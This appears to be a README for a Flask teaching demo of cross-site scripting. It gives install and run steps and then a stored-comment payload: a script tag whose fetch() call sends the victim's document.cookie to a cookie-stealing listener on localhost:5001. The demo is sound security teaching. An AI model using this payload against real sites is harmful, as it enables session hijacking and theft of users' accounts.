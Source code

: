 # Cross-Site Scripting Example

Install `flask`:

```sh
python -m pip install flask
```

Run the app:

```
python app.py
```

You can input something in the text field and press "Submit".
You will then be redirected to `http://localhost:5000/search?query=$QUERY`.

Exploit it by going to `localhost:5000` as the attacker and inserting this comment:

```
<script>fetch(`http://localhost:5001/steal-cookie?cookie=${document.cookie}`)</script>
```

Now load `localhost:5000` as the victim (e.g. on another browser) and observe that your cookies will be stolen.

